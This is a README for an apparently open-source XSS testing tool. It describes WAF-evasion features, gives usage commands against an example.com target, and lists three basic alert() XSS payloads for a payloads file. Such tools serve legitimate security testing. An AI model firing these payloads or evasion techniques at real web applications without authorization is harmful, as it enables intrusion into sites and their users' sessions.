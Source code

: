 # advanced-xss-injector
Advanced XSS Payload Injector: Automates XSS vulnerability testing in web apps. Features WAF evasion (URL encoding, HTML entities, Unicode, randomized payloads), customizable payloads (single/multiple file support), dynamic HTTP options (headers, cookies, GET/POST), and automated analysis of server responses to detect vulnerabilities.

---

## How to Configure

1. **Create a Payloads File**:  
   - Name the file `payloads.txt`.  
   - Add all your desired XSS payload scripts, each on a new line.  
   - Example:  
     ```
     <script>alert('XSS');</script>
     <img src="x" onerror="alert('XSS')">
     <svg onload=alert('XSS')>
     ```

2. **Install Required Dependencies**:  
   - Ensure you have Python 3 installed.  
   - Install necessary Python libraries using:
     ```bash
     pip install requests
     ```

---

## Usage Examples

### 1. **Single Payload with WAF Evasion (GET Method)**  
Run the tool to test a single payload with WAF evasion:  
```bash
python3 advanced_xss_injector.py -u "http://example.com/vulnerable" -p "q" -m GET --payload "<script>alert('XSS');</script>" --evade
```

### 2. **Multiple Payloads with Evasion (POST Method)**  
Test multiple payloads from the `payloads.txt` file using POST requests with evasion techniques:  
```bash
python3 advanced_xss_injector.py -u "http://example.com/vulnerable" -p "q" -m POST --payload-file payloads.txt --evade
```

---

## Additional Options
- **Custom Headers**: Add headers using `--headers`. Example:
  ```bash
  --headers "User-Agent: CustomAgent, Authorization: BearerToken"
  ```
- **Custom Cookies**: Add cookies using `--cookies`. Example:
  ```bash
  --cookies "sessionid=abc123; csrftoken=xyz456"
  ```

---
